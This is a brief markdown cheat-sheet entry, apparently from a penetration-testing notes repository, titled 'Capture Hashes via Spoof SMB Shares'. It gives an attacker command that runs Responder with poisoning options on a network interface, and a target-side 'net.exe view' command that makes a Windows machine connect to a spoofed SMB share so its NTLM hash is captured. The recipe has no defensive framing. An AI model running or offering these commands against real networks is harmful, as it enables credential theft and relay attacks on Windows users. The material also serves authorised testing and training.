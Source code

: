 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios

## 1.1 - Attacker

```
$ sudo responder -I <interface> -rdwv
```

## 1.2 - Target

```
C:\> net.exe view \\snare
```